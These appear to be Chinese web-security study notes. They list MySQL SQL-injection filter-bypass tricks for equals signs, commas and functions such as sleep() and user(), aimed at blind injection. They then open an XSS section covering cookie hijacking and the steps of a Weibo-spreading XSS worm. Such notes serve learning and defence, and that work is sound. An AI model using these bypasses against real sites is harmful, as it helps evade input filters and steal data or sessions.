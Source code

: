 

#### 等号绕过

```
select * from users where id = 1;
# 等价于
select * from users where id like 1;
select * from users where id rlike 1; # 模糊匹配
select * from users where id regexp 1; # 正则匹配
select * from users where id > 1 and id < 3;
select * from users where !(id<>1); # <> 等价于 !=

```

#### 逗号绕过

常用于盲注过滤逗号

```mysql
# ',' ---> from pos for len
select substr("string",1,3);
--->
select substr("string" from 1 for 3);
# ',' ---> join
union select 1,2,3;
--->
union select * from (select 1)a join (select 2)b join (select 3)c;
# ',' ---> offset
select * from users limit 2,1;
--->
select * from users limit 1 offset 2;
```

#### 函数绕过

```mysql
sleep(1) ---> benchmark(10000000,1) # 用于测试执行速度，第一个参数是执行次数，第二个是执行的表达式
ascii() ----> hex() ----> bin() # 进制转换
group_concat("str1","str2") ---> concat_ws(",","str1","str2")
user() ---> @@user # 好像有问题
database() ---> @@database
datadir ---> @@datadir # 好像也有问题
```

## XSS

**Cross-Site Scripting, 跨站脚本攻击**

> 由于开发者对传入的数据过滤不严格导致恶意js代码被执行

**危害**

* 会话劫持（Cookie、Session）
* XSS Worm蠕虫（以XSS攻击微博为例）
  1. 发表一条正常微博，记录articleid
  2. 获取用户userid，获取html源码并将userid拆分出来
  3. 构建用户并转发微博的url，插入xss蠕虫代码
  4. 当其他用户转发微博时，就完成了蠕虫攻击
